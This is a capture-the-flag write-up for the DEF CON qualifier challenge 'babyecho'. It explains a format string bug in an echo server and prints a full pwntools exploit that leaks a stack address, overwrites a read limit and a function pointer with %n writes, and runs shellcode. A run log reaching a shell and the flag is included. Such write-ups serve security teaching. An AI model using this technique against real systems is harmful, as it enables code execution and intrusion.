 ### Solved by superkojiman and Swappage

This was basically an echo server. Send it something, and it echoes it back. Swappage started off working on this while I was probably asleep. He found a format string vulnerability which allowed us to leak information from the stack. However, we were limited to 13 characters only. 

After a bit of time examining it in gdb and IDA, I realized that the 13 character limit was being initialized outside of the loop which received our input and echoed it back. Essentially it looked something like this:

```c
int toread = 13;    // total bytes to read
while (1) { 
    int tmp = 1023; 
    if (toread <= 1023) { 
        tmp = toread; 
    } 
    toread = tmp; 
    ..... 
}
```

What about the information we could leak from the stack? Here's what we could get:

```text
aaaa.%1$x  -> 0xd
aaaa.%2$x  -> 0xa
aaaa.%3$x  -> 0x0
aaaa.%4$x  -> 0xd
aaaa.%5$x  -> stack address; ptr to first char in "aaaa" on the stack 
aaaa.%6$x  -> 0x0
aaaa.%7$x  -> start of our format string "aaaa"
```

0xd is the value 13. The one we were interested in changing was at offset 4. How do we get that address? As it turns, out, we can leak a stack address from offset 5, so we just need to subtract the difference and we'd get the address of toread. In this case, toread was 12 bytes before the leaked stack address So:

```python
r.send("%5$x\n") 
leak = r.recvline()
log.info("Leaked stack address " + leak)

# leaked address is a pointer on the stack that's 12 bytes after 
# the address containing 0xd (toread)
toread = int(leak, 16) - 12
log.info("Address of toread " + hex(toread))
```

Once we had the address of toread, we could modify its value so that we could get the program to read more than 13 characters. Since we know that our format string starts at offset 7, this was easy to change: 

```
buf = ""
buf += p32(toread)
buf += "%99x%7$n"

log.info("Length of payload " + str(len(buf)))
log.info("Overwriting toread stage 1" + hexdump(buf))
r.send(buf + "\n")
print r.recv()
```
This sets toread to 103 bytes, so we have more than enough room for write whatever we want anywhere; question was, what to overwrite? There was no GOT since the binary was statically compiled. After a bit of searching, I found a function pointer 0x80ea9f0 that was called by sub_806CB50. I could overwrite this to point to my shellcode, which would be 30 bytes after the leaked stack address. Easy enough to get that address:

```
payload_addr = int(leak, 16) + 30   # payload is leak + 30
log.info("Payload address " + str(hex(payload_addr)))
```

Since ASLR was most likely enabled on the server, I couldn't just pre-calculate the number of bytes to write to overwrite the function pointer. To simplify things, I just used hellman's [libformatstr](https://github.com/hellman/libformatstr).

```
p = FormatStr()
p[0x80ea9f0] = payload_addr                         # overwrite 0x80ea9f0 with calculated payload address

buf = ""
buf += p.payload(7)                                 # format string at offset 7
buf += "\x90\x90\x90" + asm(shellcraft.linux.sh())  # shellcode padded by 3 bytes to keep it aligned

r.send(buf + "\n")
print r.recv()
```

Here's the final exploit:

```
#!/usr/bin/env python

from pwn import *
from libformatstr import FormatStr

r = remote("babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me", 3232)


print r.recv()
r.send("%5$x\n") 
leak = r.recvline()
log.info("Leaked stack address " + leak)

# leaked address is a pointer on the stack that's 12 bytes after 
# the address containing 0xd (toread)
toread = int(leak, 16) - 12

log.info("Address of toread " + hex(toread))

buf = ""
buf += p32(toread)
buf += "%99x%7$n"

log.info("Length of payload " + str(len(buf)))
log.info("Overwriting toread " + hexdump(buf))
r.send(buf + "\n")
print r.recv()

log.info("Write what where")
payload_addr = int(leak, 16) + 30   # payload is leak + 30
log.info("Payload address " + str(hex(payload_addr)))

p = FormatStr()
p[0x80ea9f0] = payload_addr    # 0x80ea9f0 is a function pointer

buf = ""
buf += p.payload(7)
buf += "\x90\x90\x90" + asm(shellcraft.linux.sh())

r.send(buf + "\n")
print r.recv()

r.interactive()
```

So it turns out that the exploit I wrote isn't 100% reliable. The first time I ran it locally it worked, but when I tested it on the server it failed. Then I ran it again locally and it failed. As it turns out, trying it several times will eventually lead to a successful run. I didn't look into why this was the case, but probably something on the stack changes and upsets my calculations; who knows? In any case, it will succeed eventually: 

```
koji@pwnbox:$ ./sploit.py 
[+] Opening connection to babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me on port 3232: Done
Reading 13 bytes

[*] Leaked stack address ffaafa3c
[*] Address of toread 0xffaafa30
[*] Length of payload 12
[*] Overwriting toread 00000000  30 fa aa ff  25 39 39 78  25 37 24 6e               │0···│%99x│%7$n││
    0000000c
Reading 13 bytes

[*] Write what where
[*] Payload address 0xffaafa5a
[!] Your local binutils won't be used because architecture 'i686' is not supported.
0���                                                                                                  d
Reading 103 bytes

[*] Switching to interactive mode
.
.
.

                                                                                                                                                                                                                                                   $ whoami
babyecho
$ cat /home/babyecho/flag
The flag is: 1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%
```

Got the flag: **1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%**

